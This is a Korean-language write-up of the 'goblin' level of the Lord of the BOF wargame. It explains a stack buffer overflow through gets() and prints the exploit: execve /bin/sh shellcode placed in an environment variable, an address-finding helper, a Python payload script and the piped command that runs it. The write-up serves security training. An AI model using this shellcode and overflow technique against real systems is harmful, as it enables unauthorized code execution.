 ```yaml
---
title: "[LOB]Level03. goblin"
tags: [LOB, writeup]
author: eli_ez3r
key: 20180828
modify_date: 2019-10-07
article_header:
  type: cover
  image:
    src: /assets/img/hackerschool_logo.png

---
```

[+ stdin](#){:.button.button--outline-success.button--pill}
> cobolt / hacking exposed

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```



------

### 0x01. Static Analysis

16byte크기의  buffer배열을 선언하고 gets함수를 이용하여 buffer에 값을 입력받아 저장한다.

cobolt 문제와 다른점은 cobolt에서는 main함수의 argv로 사용자에게 입력값을 받았다면, 이 문제는 gets를 이용하여 사용자에게 입력값을 받는다.

따라서 값을 넘겨주는 방식의 차이만 있을 뿐 앞 문제와 풀이 과정은 동일하다.

gets를 이용하여 사용자가 입력한 값을 buffer배열로 복사할때 복사되는 크기가 정해져있지 않아 BoF(Buffer OverFlow) 취약점이 존재한다.
{:.info}

------

### 0x02. Dynamic Analysis

buffer배열의 크기가 16Byte로 Shellcode보다 크기가 작으므로 환경변수를 이용하여 풀이한다.

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/03.goblin/image-20180828135809460.png" width="800px">

EUNICE 환경변수에 Shellcode를 넣는다.



```c
//env.c
main(){
    printf("%08x\n", getenv("EUNICE") );
}
```

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/03.goblin/image-20180828135852712.png" width="400px">

EUNICE 환경변수의 주소를 구하는 프로그램을 만들어 EUNICE환경변수의 주소를 구해온다. (0xbffffc33)

-----

### 0x03. Exploit

여기서 한번 생각해야 할 점은, Cobolt문제는 프로그램의 인자값으로 값을 넘겨주기 때문에 프로그램을 실행할때 프로그램 이름 뒤에 인자로 Payload를 넘겨주면됐다.

하지만 이번 문제는 프로그램 내부에서 입력값을 받기 때문에 같은 방법으로는 Payload를 넘겨줄 수 없다.

따라서 Pipe('|')를 사용해야 한다. (Pipe명령어는 왼쪽 **표준출력**을 오른쪽에 **표준입력**으로 넘겨주는 역할을 한다.)

표준입력으로 넘겨주어야 하기 때문에 `cat` 와 `;`명령어를 함께 사용해야 한다. (FTZ 12번 문제를 풀었다면 쉽게 이해할 수 있을 것이다.)

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/03.goblin/image-20180828135928174.png" width="700px">

> Cobolt문제와 풀이방법이 동일하므로 상세설명은 생략했다.

-----

### 0x04. 정리

Cobolt 문제에서 BoF 취약점이 존재했던 strcpy함수 외에도 gets함수도 입력값 크기 검증이 없기때문에 동일하게 BoF 취약점이 존재하는 것을 확인할 수 있는 문제였다.

그리고 프로그램 내부에서 사용자 입력값을 받을 때 어떻게 입력값을 넘겨주어야 하는지도 알게되는 문제였다.

-----

```python
#ex.py
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/cobolt/goblin"

shellcode_env_addr = 0xbffffc33

payload = "\x90"*20
payload = append(p32(shellcode_env_addr))

print payload
```

```
(python ex.py;cat)|./goblin
```

-----


